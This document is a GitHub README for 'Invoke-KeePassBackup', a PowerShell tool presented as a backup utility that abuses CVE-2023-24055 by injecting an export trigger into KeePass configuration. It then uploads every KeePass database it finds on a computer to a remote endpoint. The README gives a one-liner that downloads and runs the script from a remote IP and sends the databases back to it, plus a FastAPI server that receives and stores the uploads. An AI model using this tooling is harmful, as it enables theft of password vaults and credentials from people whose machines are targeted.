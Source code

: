 # Invoke-KeePassBackup
This PowerShell script is designed to automate the process of sending KeePass databases to a specified endpoint. 🕊️

## Features
- Automatically locates the KeePass executable and ascertains its version.
- Adds an export trigger to the KeePass configuration if KeePass version is below 2.53 (a.k.a `CVE-2023-24055`).
- Backs up the current KeePass configuration before making changes.
- Scours all KeePass databases on the computer and uploads them to a given endpoint.
- Uses GZip compression for efficient backup size.
  
## Usage
Run the script using the following command:
```powershell
Invoke-KeePassBackup -url "https://backup.endpoint/u"
```

Knowing the real use-case, preferred running is from your own `HTTP(S)`/`WebDAV` server:
```powershell
$ip="192.168.45.218";powershell -nop -c "iex(irm http://$ip/Invoke-KeePassBackup.ps1); Invoke-KeePassBackup http://$ip/u"
```

The reception endpoint could resemble this FastAPI Python3 code snippet:
```python

@app.post("/u")
async def upload_file(x_file_name: str = Header(...), data: str = Body(...)):
    """
    Handle file upload via POST request.

    Args:
        x_file_name (str): The name of the file, from header.
        data (str): The body of the request containing the uploaded file's data.

    Raises:
        HTTPException: If the filename header is missing.
        HTTPException: If an error occurs during file upload.
    """

    if not x_file_name:
        raise HTTPException(
            status_code=status.HTTP_400_BAD_REQUEST,
            detail="Provide a filename with Header 'X-File-Name'",
        )

    try:
        # Decode the base64 data
        decoded_data = base64.b64decode(data.encode("utf-8"))

        # Check if the data is gzipped by looking at the first two bytes
        if decoded_data[:2] == b"\x1f\x8b":
            # If gzipped, decompress
            buffer = io.BytesIO(decoded_data)
            with gzip.GzipFile(fileobj=buffer, mode="rb") as f:
                processed_data = f.read()
        else:
            # If not gzipped, just use the decoded data as is
            processed_data = decoded_data

        # Save the file
        save_file_content(file_name=x_file_name, data=processed_data)

        return {"status": "success", "message": f"Received {x_file_name}."}

    except Exception as error:
        logger.error(f"Error while processing upload: {error}")
        raise HTTPException(status_code=500)
```

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.
